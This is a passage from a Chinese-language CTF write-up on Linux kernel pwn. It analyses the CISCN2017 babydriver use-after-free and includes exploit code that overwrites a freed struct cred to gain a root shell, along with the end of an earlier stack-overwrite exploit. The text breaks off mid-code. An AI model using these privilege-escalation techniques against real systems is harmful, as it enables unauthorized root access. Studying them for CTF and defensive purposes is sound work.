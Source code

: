 ```c
    init_tf_work();
    int fd = open("/dev/tostring", O_RDWR);
    for (int i = 0; i < 0x40; ++i) {
        write(fd, padding, sizeof(padding)-1);
    }
    *((void**)(eip)) = &payload;
    write(fd, eip, sizeof(eip)-1);
    read(fd, recv, 255);
    return 0;
}
```

### UAF & ROP | CISCN2017 babydriver

#### ioctl

```c
int ioctl(int fd, unsigned long request, ...);
```

第一个参数是文件描述符，第二个是程序对设备的控制指令，后面则是指令的补充参数。

对于Linux，一切皆文件。而Linux提供的读写文件的函数（read, write, lseek等）对于许多的设备不好进行控制，所以提供了ioctl函数。request就是设备驱动程序提供的控制指令。

#### 分析

`babydriver_init`，`babydriver_exit`是常规的创建和销毁过程。

`babyioctl`定义了一个ioctl指令来分配指定大小的buf。

`babyopen`默认分配一个64字节的buf。`kmem_cache_alloc_trace`似乎是`kmalloc`优化的结果，还不了解后续再研究。[src](https://elixir.bootlin.com/linux/v4.4.72/source/include/linux/slab.h#L458)

`babyread`/`babywrite` 从buf读取数据/往buf写入数据，都对大小进行了验证，不存在溢出。

漏洞点在于该符号设备全局共享一个buf，所以同时打开两次，这两次共享一个buf，释放其中一个就发生了UAF。

#### exploit1

打开两次设备，使用ioctl控制buf为`struct cred`的大小，然后close其中一次打开，另一次打开就指向了一块已经释放的区域，fork产生的新进程就会分配得到该区块用来存储`cred`，通过另一次打开的设备进行覆写改变进程uid、gid，就获得了root权限。

在这里计算`struct cred`的大小是一个难点，我并未找到很简单的方法来计算。因为这个结构体里面也有许多的结构体，我觉得直接看源码并不那么容易计算。。。一层套一层，还有对齐的问题。先直接用了，后面再找办法[todolist2]，大小为0xa8。[src](https://elixir.bootlin.com/linux/v4.4.72/source/include/linux/cred.h#L118)

[exp](https://github.com/clxsh/ctf_wps/blob/master/others/kernel_pwn/ciscn2017-babydriver/exp1.c)

```c
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>

int main()
{
    int fd1 = open("/dev/babydev", O_RDWR);
    int fd2 = open("/dev/babydev", O_RDWR);
    pid_t pid;

    ioctl(fd1, 0x10001, 0xa8);
    close(fd1);

    if ((pid = fork()) == 0) {
        char zero[36] = {0};
        write(fd2, zero, sizeof(zero));
        if (getuid() == 0) {
            system("/bin/sh");
            exit(0);
```